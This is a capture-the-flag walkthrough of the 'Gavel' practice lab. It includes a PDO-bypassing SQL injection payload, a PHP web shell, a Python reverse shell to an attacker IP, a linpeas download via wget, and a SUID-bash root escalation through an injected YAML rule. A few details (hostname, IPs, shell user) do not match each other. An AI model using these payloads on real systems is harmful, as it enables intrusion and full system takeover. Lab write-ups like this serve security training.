








### Port Scanning

```c
>> sudo nmap -sCV -vv -oN NMAP/defaultports 10.10.11.97
Nmap scan report for 10.10.11.97
Host is up, received reset ttl 63 (0.22s latency).
Scanned at 2025-12-24 21:38:30 +0545 for 157s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1f:de:9d:84:bf:a1:64:be:1f:36:4f:ac:3c:52:15:92 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN/Hhg1nYlWGdi109d6k/OXFg0xbLVuEho3xQqX/DkRDPQ5Y9P6l2XLkbsSscgiQIq3/bHeX6T4mLci0/I/kHeI=
|   256 70:a5:1a:53:df:d1:d0:73:3e:9d:90:ad:c1:aa:b4:19 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMYFumAaeF6fOwurP+3zFG7iyLB1XC40te7RWDNVze0x
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://gavel.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: gavel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 24 21:41:07 2025 -- 1 IP address (1 host up) scanned in 158.39 seconds
```

Searching Directories using `dirsearch`, the `.git/` directory is exposed:

```shell
>> dirsearch -u http://gravel.htb -x 403
Target: http://gavel.htb/

[21:48:08] Starting: 
[21:48:17] 301 -  305B  - /.git  ->  http://gavel.htb/.git/
[21:48:17] 200 -    3B  - /.git/COMMIT_EDITMSG
[21:48:17] 200 -   23B  - /.git/HEAD
[21:48:17] 200 -  407B  - /.git/branches/
[21:48:18] 200 -  136B  - /.git/config
[21:48:18] 200 -  616B  - /.git/
[21:48:17] 200 -   73B  - /.git/description
[21:48:18] 200 -  670B  - /.git/hooks/
[21:48:18] 301 -  321B  - /.git/logs/refs/heads  ->  http://gavel.htb/.git/logs/refs/heads/
[21:48:18] 301 -  316B  - /.git/refs/heads  ->  http://gavel.htb/.git/refs/heads/
[21:48:18] 301 -  315B  - /.git/logs/refs  ->  http://gavel.htb/.git/logs/refs/
[21:48:18] 200 -   41B  - /.git/refs/heads/master
[21:48:18] 200 -  454B  - /.git/info/
[21:48:18] 200 -  486B  - /.git/logs/
[21:48:18] 301 -  315B  - /.git/refs/tags  ->  http://gavel.htb/.git/refs/tags/
[21:48:18] 200 -  240B  - /.git/info/exclude
[21:48:18] 200 -  422B  - /.git/logs/refs/heads/master
[21:48:18] 200 -  422B  - /.git/logs/HEAD
[21:48:18] 200 -  467B  - /.git/refs/
[21:48:19] 200 -  219KB - /.git/index
[21:48:21] 200 -    2KB - /.git/objects/
[21:48:23] 403 -  274B  - /.php
[21:48:33] 302 -    0B  - /admin.php  ->  index.php
[21:48:47] 301 -  307B  - /assets  ->  http://gavel.htb/assets/
[21:48:47] 200 -  515B  - /assets/
[21:49:06] 301 -  309B  - /includes  ->  http://gavel.htb/includes/
[21:49:07] 200 -    3KB - /index.php
[21:49:07] 200 -    3KB - /index.php/login/
[21:49:11] 200 -    1KB - /login.php
[21:49:12] 302 -    0B  - /logout.php  ->  index.php
[21:49:26] 200 -    1KB - /register.php
```

This is a classic Git repository disclosure. We can dump it and reconstruct the full source code using `git-dumper` library:

```
>> python3 -m venv env
>> source env/bin/activate
(env) >> pip3 install git-dumper
(env) >> git-dumper http://gavel.htb/.git/ git_dump
git_dump(env) >> cd git_dump
git_dump(env) >> code .
```

I get the following files:



I got multiple vulnerabilities:

**1\. Brute-forcing login page:**

```
if (!isset($_SESSION['user']) || $_SESSION['user']['role'] !== 'auctioneer') {
    header('Location: index.php');
    exit;
```



I got redirect for the password `midnight1`:



I got potential vulnerabilities in `inventery.php` file.

**1.Insecure Direct Object Reference (IDOR) vulnerability**

Authorization is based solely on user-supplied ID, there is no ownership validation and session identity is overridden by request data.

```
$userId = $_POST['user_id'] ?? $_GET['user_id'] ?? $_SESSION['user']['id'];
```

**Exploitation Flow**

1.  First loggedin with a normal account
2.  Appending query parameters `user_id`in the URL.  
    

I tested if someone inventory have some interesting stuff but as I can see there is no change in length except my `user_id=3`, so there is not anything informative, so i moved on.

**2\. SQL Injection via improper sanitization**  
This `str_replace`function searches for all backtick characters `` ` `` in the string \$sortItem and replaces them with an empty string (i.e., removes them). So, after removing any existing backticks, the code wraps the string safely in backticks again.

```
$col = "`" . str_replace("`", "", $sortItem) . "`";
```

```
$stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
```

```
>> http://gavel.htb/inventory.php?user_id=x`+FROM+(SELECT+group_concat(username,0x3a,password)+AS+`%27x`+FROM+users)y;--+-&sort=\?;--+-%00
```

Key points for bypassing PDO:

```
`\?` — backslash before the question mark breaks parameter detection, since PDO scans for `?` placeholders before MySQL syntax parsing and doesn't recognize the escaped version
`%00` — null byte causes string truncation at the C level in the MySQL driver, effectively "cutting off" the rest of the query
```


```
>> john hash.txt 
Created directory: /home/d0t0/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 18 candidates buffered for the current salt, minimum 36 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
midnight1        (auctioneer)     
1g 0:00:00:43 DONE 2/3 (2025-12-31 22:16) 0.02274g/s 267.9p/s 267.9c/s 267.9C/s general1..ollie1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- **Arbitrary PHP Execution via `runkit_function_add` in `bid_handler.php` file**

`$rule = $auction['rule'];`

`runkit_function_add( 'ruleCheck', '$current_bid, $previous_bid, $bidder', $rule);`

`$allowed = ruleCheck($current_bid, $previous_bid, $bidder);`

The code is treating database content as executable PHP code.

Whatever string is stored in `auctions.rule` becomes the body of a PHP function and is executed inside the server process.

**Exploitation flow:**

```
file_put_contents(
    __DIR__ . '/../shell.php',
    '<?php system($_GET["cmd"]); ?>'
);
return true;

```

I put the malicious code in the `edit rule` field and `Edit message` field is optional and triggered the rule in Bidding Page:



And I can see the user info using `id` command:



Now getting into the shell:

Bash payload probably does not gonna work, so I checked for python3 and tried python3 payload and got the shell.



The Payload:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.28",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

The Shell:

```
┌──(d0t0㉿2600-AAA-2700)-[~/hackthebox/Gavel]
└─$ nc -lvnp 7777
listening on [any] 7777 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.97] 38600
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@gavel:/var/www/html/gavel$ export TERM=xterm
export TERM=xterm
www-data@gavel:/var/www/html/gavel$ ^Z
zsh: suspended  nc -lvnp 7777
                                                                                                                                                              
┌──(d0t0㉿2600-AAA-2700)-[~/hackthebox/Gavel]
└─$ stty raw -echo;fg                     
[1]  + continued  nc -lvnp 7777
                               stty rows 38 cols 116
auctioneer@gavel:/var/www/html/gavel$ cd                                                                                                                      
auctioneer@gavel:~$ ls -al                                                                                                                                    
total 12                                                                                                                                                      
drwxr-x--- 2 auctioneer auctioneer 4096 Jan  1 07:07 .                                                                                                        
drwxr-xr-x 3 root       root       4096 Nov  5 12:46 ..                                                                                                       
lrwxrwxrwx 1 root       root          9 Nov  5 12:20 .bash_history -> /dev/null                                                                               
-rw-r----- 1 root       auctioneer   33 Dec 31 18:06 user.txt                                                                                                 
auctioneer@gavel:~$ cat user.txt                                                                                                                              
764549********************88fc3c

```

Rnning `[Linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)` to see the Privilege Escalation vector, i don't want to waste time looking file one by one:

```
(My_Machine>> python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.97 - - [01/Jan/2026 22:38:04] "GET /linpeas.sh HTTP/1.1" 200 -

```

```
auctioneer@gavel:~$ cd /tmp;wget http://10.10.14.9:8000/linpeas.sh
--2026-01-01 16:55:40--  http://10.10.14.9:8000/linpeas.sh
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 975444 (953K) [application/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                   100%[==============================================>] 952.58K   211KB/s    in 4.5s    

2026-01-01 16:55:45 (211 KB/s) - ‘linpeas.sh’ saved [975444/975444]

auctioneer@gavel:/tmp$ ls
linpeas.sh
auctioneer@gavel:/tmp$ chmod +x linpeas.sh 
auctioneer@gavel:/tmp$ ./linpeas.sh 
                                                                                                                                                                                                                                              
                                                                                                                                                                                                                                              
                                                                                                                                                                                                                                              
                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                                                                                                                                                                                    
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄                                                                                                                                                                                              
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄                                                                                                                                                                                          
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄                                                                                                                                                                                     
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                                                                                                                                                                   
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                                                                                                                                                                   
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄                                                                                                                                                                                   
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄                                                                                                                                                                                    
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄                                    
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄                                    
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄                                    
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                    
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄                                    
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄                                    
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄                                    
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄                                                            
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄                                                             
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                                                                                                                    
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                    
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                                            
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                                                                                                                   
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀                                                             
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀                                                                      
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀                                                                           
                                                                                                                                                                                                                                              
    /---------------------------------------------------------------------------------\                                                                                                                                                       
    |                             Do you like PEASS?                                  |                                                                                                                                                       
    |---------------------------------------------------------------------------------|                                                                                                                                                       
    |         Learn Cloud Hacking       :     https://training.hacktricks.xyz         |                                                                                                                                                       
    |         Follow on Twitter         :     @hacktricks_live                        |                                                                                                                                                       
    |         Respect on HTB            :     SirBroccoli                             |                                                                                                                                                       
    |---------------------------------------------------------------------------------|                                                                                                                                                       
    |                                 Thank you!                                      |                                                                                                                                                       
    \---------------------------------------------------------------------------------/                                                                                                                                                       
          LinPEAS-ng by carlospolop     
  		.................................................... 
```

The `/opt` and `/usr/local/bin` directory seems to be interesting:



```
auctioneer@gavel:~$ id
uid=1001(auctioneer) gid=1002(auctioneer) groups=1002(auctioneer),1001(gavel-seller)
```

As we can run the binary `gavel-util` bacause we are in same group so I reverse-engineered to know what the file does using `ghidra`:

This program is a **client** that talks to a Unix domain socket:

`/var/run/gaveld.sock`

It supports three subcommands:

- `submit <file>`
- `stats`
- `invoice`

It packages requests as **JSON**, sends them over the socket, optionally sends file contents, and prints the server response.

SImply what the utility does is, it takes `.yaml` with item-data for auction. The `rule` field is what we are interested in as the rule is handled by the same  `runkit_function_add()` function that allowed RCE earlier. And we can misuse this function again but with root permissions.

```
auctioneer@gavel:~$ ls -l /usr/local/bin
total 20
-rwxr-xr-x 1 root gavel-seller 17688 Oct  3 19:35 gavel-util
auctioneer@gavel:~$ ls -l /opt/gavel/
total 44
-rwxr-xr-- 1 root root 35992 Oct  3 19:35 gaveld
-rw-r--r-- 1 root root   364 Sep 20 14:54 sample.yaml
drwxr-x--- 2 root root  4096 Jan  2 16:30 submission

```

I can also see in the **information about running processes** on the system.

```
auctioneer@gavel:~$ ps  -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND 
................................................
root         908  0.0  0.2 318000 11904 ?        Ssl  Jan01   0:00 /usr/sbin/ModemManager
root         932  0.0  0.0   7372  3504 ?        Ss   Jan01   0:13 /bin/bash /root/scripts/auction_watcher.sh                                                                                 
root         933  0.0  0.0  19128  3896 ?        Ss   Jan01   0:00 /opt/gavel/gaveld
root         939  0.0  0.0   6920  2956 ?        Ss   Jan01   0:00 /usr/sbin/cron -f -P
root         950  0.3  0.4  26784 18308 ?        Ss   Jan01   1:33 python3 /root/scripts/timeout_gavel.py                                                                                     
................................................
```

There is no any sandboxing in the system which makes a lot easier for us to exploit, we have the fully open PHP environment.

```
auctioneer@gavel:/opt/gavel/.config/php$ cat php.ini 
engine=On	//This simply turns PHP on
display_errors=On     //PHP errors are displayed to the browser
open_basedir=       //PHP can access any readable file on the system
disable_functions=     //All dangerous functions can be executed
```

We can also see there is the sample file. So I crafted the fields with malicious code exactly as the file which you can see below.

```
auctioneer@gavel:~$ cat /opt/gavel/sample.yaml 
---
item:
  name: "Dragon's Feathered Hat"
  description: "A flamboyant hat rumored to make dragons jealous."
  image: "https://example.com/dragon_hat.png"
  price: 10000
  rule_msg: "Your bid must be at least 20% higher than the previous bid and sado isn't allowed to buy this item."
  rule: "return ($current_bid >= $previous_bid * 1.2) && ($bidder != 'sado');"
```

I created `exploit.yaml` in the home directory with the following content.

```
name: "rootbash"
description: "the exploit"
image: "https://example.com/dragon_hat.png"
price: 10000
rule_msg: "some useless rules"
rule: "system('cp /bin/bash /opt/gavel/rootbash; chmod u+s /opt/gavel/rootbash'); return false;"
```

Now, I can run the exploit.

```
auctioneer@gavel:~$ /usr/local/bin/gavel-util submit exploit.yaml                                                                                                                             
Item submitted for review in next auction 
```

I can see the `rootbash` binary is copied in the specified directory and I got the root shell.

```
auctioneer@gavel:~$ ls -al /opt/gavel/
total 1420
drwxr-xr-x 4 root root    4096 Jan  3 07:49 .
drwxr-xr-x 3 root root    4096 Nov  5 12:46 ..
drwxr-xr-x 3 root root    4096 Nov  5 12:46 .config
-rwxr-xr-- 1 root root   35992 Oct  3 19:35 gaveld
-rwsr-xr-x 1 root root 1396520 Jan  3 07:49 rootbash
-rw-r--r-- 1 root root     364 Sep 20 14:54 sample.yaml
drwxr-x--- 2 root root    4096 Jan  3 07:49 submission
auctioneer@gavel:~$ /opt/gavel/rootbash -p
rootbash-5.1# cat /root/root.txt
1164b0**************************
```

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;
